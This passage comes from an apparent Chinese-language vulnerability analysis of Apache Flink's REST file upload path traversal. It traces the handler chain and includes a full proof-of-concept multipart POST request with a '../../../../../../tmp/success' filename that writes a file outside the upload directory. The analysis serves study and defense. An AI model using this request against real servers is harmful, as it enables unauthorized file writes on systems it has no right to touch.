 文件上传的触发路由比较独特，经过调试分析得到了以下结果
1. 访问的所有路径都会经过handler链的处理。
1. 在FileUploadHandler类中如果发送的包为file包，那么会对currentHttpPostRequestDecoder进行赋值以及对msg进行对象转换，从而进行文件操作。
1. CVE-2020-17519 发生在RouterHandler 类处理中。
handler链在AbstractChannelHandlerContext::invokeChannelRead函数中体现

[![](https://p4.ssl.qhimg.com/t0176633a4718ec0d64.png)](https://p4.ssl.qhimg.com/t0176633a4718ec0d64.png)

FileUploadHandler就在这个这条handler链中

#### <a class="reference-link" name="3.%20%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8"></a>3. 漏洞利用

可以看出路由路径**可以是任意值**，但必须是POST方法给currentHttpPostRequestDecoder赋值，所以可以发送如下数据包

```
POST /xxxxx HTTP/1.1
Host: localhost:8081
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/87.0.4280.88 Safari/537.36
Connection: close
Content-Type: multipart/form-data; boundary=----WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Length: 187

------WebKitFormBoundaryoZ8meKnrrso89R6Y
Content-Disposition: form-data; name="jarfile"; filename="../../../../../../tmp/success"

success
------WebKitFormBoundaryoZ8meKnrrso89R6Y--

```

在第97行生成的dest变量为带有目录遍历的字符串内容，如下图所示

[![](https://p5.ssl.qhimg.com/t01717ce739c5af4ebd.png)](https://p5.ssl.qhimg.com/t01717ce739c5af4ebd.png)

进入fileUpload.renameTo方法，利用java file的renameTo方法，生成目标文件

[![](https://p1.ssl.qhimg.com/t01c958c75d38ba389a.png)](https://p1.ssl.qhimg.com/t01c958c75d38ba389a.png)

#### <a class="reference-link" name="4.%20%E9%97%AE%E9%A2%98%E6%80%9D%E8%80%83"></a>4. 问题思考

漏洞到底发生在服务运行的哪个时期？触发路由为什么是多样的？<br>
发生在服务handler遍历阶段，flink中维护着一个大的handler链表，每个handler结构拥有next和prev指向节点，FileUploadHandler也是其中的一个handler节点，所以通过任意路由走进该handler节点。其实漏洞发生在RouterHandler路由之前。

### <a class="reference-link" name="0x2%20CVE-2020-17519%20%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB"></a>0x2 CVE-2020-17519 任意文件读
